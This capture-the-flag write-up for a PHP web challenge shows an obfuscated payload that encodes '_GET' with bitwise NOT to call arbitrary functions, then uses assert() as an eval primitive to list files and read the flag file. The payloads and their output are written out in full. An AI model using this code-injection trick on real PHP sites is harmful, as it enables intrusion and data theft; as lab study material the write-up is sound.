

Little note:
finfo solved this very quickly but I wanted to do it with what I learned in the level22 writeups

From when I solved level 22 I saw a PHP trick that people were using where they would pass:
```${~%A0%B8%BA%AB}{c}();``` and ```c=phpinfo``` as a get param.
Which will do the following:
```${~%A0%B8%BA%AB}{c}();``` will transalte to ${_GET}{c}().
Now in older versions of php, it doesn't udnerstand who the constant _GET is and it assumes we are referring the actual _GET param:


I will also add another variable p(parameter) that will be the parameter and the final payload will be:
```${~%A0%B8%BA%AB}{c}(${~%A0%B8%BA%AB}{p});```

In older versions of php you can access arrays with {} instead of [].
Now the difference between this level and 22, is that there we have a builtin echo call on what we call, here we need to find a workaround it.

After a lot of research, I found something interesting: The assert function until PHP 8.0 calls eval on it's code.
that's what we will use

```c=assert&p=print_r(scandir("."))``` => 
```
Array
(
    [0] => .
    [1] => ..
    [2] => 0e7efcd6e821f4bb90af4e4c439001944c1769da.php
    [3] => index.php
    [4] => php-fpm.sock
    [5] => source.php
)
```

Then I got the flag with this: ```c=assert&p=print_r(file_get_contents("./0e7efcd6e821f4bb90af4e4c439001944c1769da.php"))``` =>
```$flag = 'WEBSEC{that_must_have_been_some_nifty_php_trick_you_had_there}';```